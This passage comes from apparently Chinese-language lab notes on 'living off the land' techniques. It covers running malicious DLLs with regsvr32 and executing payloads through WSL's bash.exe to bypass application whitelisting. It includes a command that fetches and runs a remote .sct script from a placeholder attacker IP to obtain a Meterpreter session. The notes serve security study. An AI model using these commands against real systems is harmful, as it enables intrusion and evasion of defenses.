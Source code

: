     4. **在受害者机器上执行**:
        
        - **执行本地 32位 DLL (在64位系统上)**:
            
            DOS
            
            ```
            C:\Users\thm> C:\Windows\SysWOW64\regsvr32.exe C:\Users\thm\Downloads\live0fftheland_x86.dll
            ```
            
        - **执行本地 64位 DLL (在64位系统上)**:
            
            DOS
            
            ```
            C:\Users\thm> C:\Windows\System32\regsvr32.exe C:\Users\thm\Downloads\live0fftheland_x64.dll
            ```
            
        - **通过远程 COM 脚本宿主文件 (`.sct`) 执行 (更隐蔽)**: 攻击者可以创建一个 `.sct` 文件（XML格式），其中包含执行恶意代码的逻辑（例如，下载并运行 Shellcode，或执行 JScript/VBScript）。然后使用 `regsvr32.exe` 指向这个远程 `.sct` 文件。
            
            DOS
            
            ```
            C:\Users\thm> regsvr32.exe /s /n /u /i:http://<Attacker_IP>/malicious_script.sct Scrobj.dll
            ```
            
            - `/s`: 静默模式运行，不显示消息框。
            - `/n`: 不调用 `DllRegisterServer` 或 `DllUnregisterServer`。
            - `/u`: 指定执行 DLL 的 `DllUnregisterServer` 函数（如果 `/i` 和 DLL 同时提供，则 `/i` 优先）。
            - `/i:<url>`: 将 `<url>` (这里是 `.sct` 文件的 URL) 作为参数传递给 DLL 的 `DllInstall` 函数（如果DLL实现了它）。当与 `Scrobj.dll` (COM 脚本宿主库) 结合使用时，`Scrobj.dll` 会下载并执行 `.sct` 文件中的脚本。
            - `Scrobj.dll`: 是实际处理 `.sct` 文件的 COM 服务器。 (原文中 `regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll` 的语法将本地 DLL 作为 `Scrobj.dll` 的替代品，这不符合标准的远程 SCT 执行模式。标准的远程SCT执行通常只需要 `/i:URL` 和 `Scrobj.dll`。)
        
        执行成功后，攻击机上应收到 Meterpreter会话。
        

##### 2. Bourne Again Shell (Bash - WSL)

- **背景**: 从 Windows 10 开始，微软引入了 **Windows Subsystem for Linux (WSL)**，允许用户在 Windows 上直接运行原生的 Linux 二进制文件环境。WSL 存在 WSL1 和 WSL2 两个版本，WSL2 使用轻量级 Hyper-V 虚拟机运行完整的 Linux 内核。`bash.exe` 是微软提供的用于与 WSL 环境交互的命令行工具。
- **恶意滥用**: 由于 `bash.exe` 是一个微软签名的二进制文件，它可能被用来执行其他未签名的 Linux 可执行文件或脚本，从而可能绕过某些仅针对 Windows 可执行文件的应用程序白名单策略。ATT&CK 将这种技术归类为 **T1202.003 - Indirect Command Execution: Bash** (T1202已弃用，应查找 T1218 下的类似子技术或 T1059.004 Unix Shell)。
    - **执行命令示例**:
        
        DOS
        
        ```
        bash.exe -c "<linux_command_or_path_to_linux_payload>"
        ```
        
        例如，如果 WSL 中已安装了某个 Linux 发行版，并且其中存在恶意 ELF 文件，可以通过 `bash.exe` 来执行它。
- **前提条件**: 要在 Windows 10/11 中使用 `bash.exe`，用户需要手动启用“适用于 Linux 的 Windows 子系统”功能并安装一个 Linux 发行版。由于嵌套虚拟化限制，在某些虚拟机环境中可能无法启用 WSL。

---